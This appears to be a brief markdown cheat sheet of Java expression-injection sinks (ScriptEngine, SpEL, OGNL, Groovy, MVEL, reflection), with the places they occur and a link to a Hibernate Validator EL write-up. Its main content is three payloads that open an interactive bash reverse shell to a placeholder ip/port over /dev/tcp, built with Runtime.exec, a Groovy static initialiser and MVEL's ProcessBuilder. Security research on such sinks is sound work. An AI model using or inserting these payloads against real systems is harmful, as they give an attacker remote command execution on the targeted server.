 ## Scene
- 1.condition: compare
- 2.calculate: number
- 3.handling: validator

## Type
- ScriptEngine
  - new ScriptEngineManager.getEngineByName("js").eval(input);
```
java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"])
```

- SpEL
   - [hibernate_validtor_EL_Execute](https://kevinsa.com/2020/06/17/hibernate-validtor-EL-Execute/)

- OGNL
  - getValue()
  - Internal implement principle: findValue
  
- Groovy
  ```
  class RCE{ public static Object obj = java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]); }
  ```
- MVEL
 - MVEL.eval()
 ```
 new java.lang.ProcessBuilder(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]).start();
 ```
 - []()

- Self-Implement-Reflection
  - 危险静态方法调用: static
  - xx.getClass.forName("").getMethod()
